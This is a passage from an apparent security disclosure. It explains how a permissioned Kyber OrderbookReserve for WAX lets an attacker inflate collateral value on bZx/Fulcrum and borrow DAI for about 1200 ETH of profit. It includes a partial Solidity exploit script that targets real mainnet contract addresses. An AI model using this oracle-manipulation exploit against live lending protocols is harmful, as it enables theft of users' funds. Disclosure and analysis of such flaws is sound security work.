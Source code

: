 This means that if we can somehow increase the rate reported by a permissioned
reserve, we can trick Fulcrum into thinking our collateral is worth more than
it really is.

### A permissioned OrderbookReserve

On June 16 2019, the Kyber team listed an OrderbookReserve for the WAX token
as a permissioned reserve in [this
transaction](https://etherscan.io/tx/0xce7df57e6b6d5589f19125b9298bbb36e672d373196d7610073540f59220c318).
This was interesting because the statement "an OrderbookReserve is always
permissioned" was considered to be axiomatic.

After this reserve was listed, the Kyber Network itself continued to perform
according to specifications. However, we can now significantly affect the
apparent exchange rate between WAX and ETH simply by listing an order, which
means that we can trick any project which relies on Kyber to provide an
accurate FMV.

#### Demo

The following script will turn a profit of approximately 1200ETH by:

  1. Listing an order buying 1 WAX for 10 ETH, increasing the price from 0.00ETH/WAX to 10ETH/WAX
  2. Borrowing DAI from bZx using WAX as a collateral
  3. Cancelling all orders and converting all assets to ETH

    
    
    contract BZxWAXExploit is Script, Constants, TokenHelper, BZxHelpers {
        BZxLoanTokenV2Like private constant BZX_DAI = BZxLoanTokenV2Like(0x14094949152EDDBFcd073717200DA82fEd8dC960);
        
        ERC20Like private constant WAX = ERC20Like(0x39Bb259F66E1C59d5ABEF88375979b4D20D98022);
        OrderbookReserveLike private constant WAX_ORDER_BOOK = OrderbookReserveLike(0x75fF6BeC6Ed398FA80EA1596cef422D64681F057);
        
        uint constant private INITIAL_BALANCE = 150 ether;
        
        function setup() public {
            name("bzx-wax-exploit");
            blockNumber(8455720);
        }
        
        function run() public {
            begin("exploit")
                .withBalance(INITIAL_BALANCE)
                .first(this.checkRates)
                .then(this.makeOrder)
                .then(this.checkRates)
                .then(this.borrow)
                .then(this.cleanup)
                .finally(this.checkProfits);
        }
        
        uint constant rateCheckAmount = 1e8;
        